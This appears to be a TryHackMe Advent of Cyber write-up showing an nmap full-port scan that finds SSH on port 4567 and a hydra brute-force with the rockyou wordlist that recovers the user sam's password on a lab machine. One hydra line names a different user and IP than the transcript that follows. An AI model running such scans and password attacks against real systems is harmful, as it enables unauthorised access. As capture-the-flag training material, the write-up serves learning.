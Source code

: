 1. What port is SSH running on?

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ sudo nmap -A -p- 10.10.163.132
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-03 13:07 CEST
Nmap scan report for 10.10.163.132
Host is up (0.035s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE VERSION
4567/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 96:74:17:5c:4f:d7:a1:9a:e8:ba:86:cf:2a:fe:65:99 (RSA)
|   256 f1:6d:6f:41:85:06:73:f3:f2:30:fd:b6:6d:f8:4d:33 (ECDSA)
|_  256 7b:e4:f5:0b:92:a1:61:60:bb:84:79:5a:15:e5:3d:7f (ED25519)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/3%OT=4567%CT=1%CU=37212%PV=Y%DS=2%DC=T%G=Y%TM=5F785
OS:BC4%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10B%TI=Z%TS=8)SEQ(SP=108%
OS:GCD=1%ISR=10B%TI=Z%CI=I%II=I%TS=8)OPS(O1=M508ST11NW6%O2=M508ST11NW6%O3=M
OS:508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=68DF%W2=68D
OS:F%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW6%
OS:CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y
OS:%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%R
OS:D=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%
OS:S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPC
OS:K=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   33.88 ms 10.8.0.1
2   33.97 ms 10.10.163.132

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.08 seconds
```

`4567`

2. Crack sam's password and read flag1.txt

`hydra -l molly -P /usr/share/wordlists/rockyou.txt ssh://10.10.132.190`

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ hydra -l sam -P /usr/share/wordlists/rockyou.txt ssh://10.10.163.132:4567
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-03 13:10:01
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.163.132:4567/
[4567][ssh] host: 10.10.163.132   login: sam   password: chocolate
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-03 13:10:14
```

